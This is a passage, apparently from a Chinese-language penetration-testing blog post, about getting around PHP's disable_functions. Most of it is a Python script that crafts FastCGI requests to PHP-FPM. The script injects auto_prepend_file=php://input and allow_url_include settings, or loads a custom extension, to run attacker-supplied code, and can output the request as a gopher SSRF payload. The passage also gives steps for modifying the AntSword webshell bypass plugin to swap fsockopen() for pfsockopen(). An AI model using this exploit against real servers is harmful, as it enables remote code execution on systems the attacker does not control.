    parser.add_argument('-u', '--url_format', help='generate gopher stream in url format', nargs='?',const=1)
    parser.add_argument('-b', '--base64_format', help='generate gopher stream in base64 format', nargs='?',const=1)
    args = parser.parse_args()
    client = FastCGIClient(args.host, args.port, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = args.file
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(args.code),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    if args.ext and args.include_file:
        #params['PHP_ADMIN_VALUE']='extension = '+args.ext
        params['PHP_ADMIN_VALUE']="extension_dir = /var/www/html\nextension = ant.so"
        params['PHP_VALUE']='auto_prepend_file = '+args.include_file
    if not args.url_format and not args.base64_format :
        response = client.request(params, args.code)
        print(force_text(response))
    else:
        response = client.gopher(params, args.code)
        if args.url_format:
            print(urllib.quote(response))
        if args.base64_format:
            print(base64.b64encode(response))
```

然后在生成的payload前加上`gopher://ip:port/_`得到：


### 使用蚁剑插件并修改绕过




但是插件中的payload使用了`fsockopen()`，如果`fsockopen()`被ban了，或者想要修改蚁剑的插件中的地址127.0.0.1:9001 的选项。

但是`pfsockopen()`没有被ban 而且两者没有任何区别

将这两个文件下的`fsockopen()`改成`pfsockopen()`即可

```cmd
\antData\plugins\as_bypass_php_disable_functions-master\payload.js
\antData\plugins\as_bypass_php_disable_functions-master\core\php_fpm\index.js
```

在`\core\php_fpm\index.js`可以修改下拉列表的ip

## 参考文章

[浅谈几种Bypass disable_functions的方法](https://www.easy233.top/2020/06/18/hello/[https://www.mi1k7ea.com/2019/06/02/浅谈几种Bypass-disable-functions的方法/](https://www.mi1k7ea.com/2019/06/02/浅谈几种Bypass-disable-functions的方法/))

[渗透测试之绕过PHP的disable_functions](https://www.easy233.top/2020/06/18/hello/[https://mochazz.github.io/2018/09/27/渗透测试之绕过PHP的disable_functions/#相关文章](https://mochazz.github.io/2018/09/27/渗透测试之绕过PHP的disable_functions/#相关文章))

[PHP Webshell下绕过disable_function的方法](https://xz.aliyun.com/t/5320)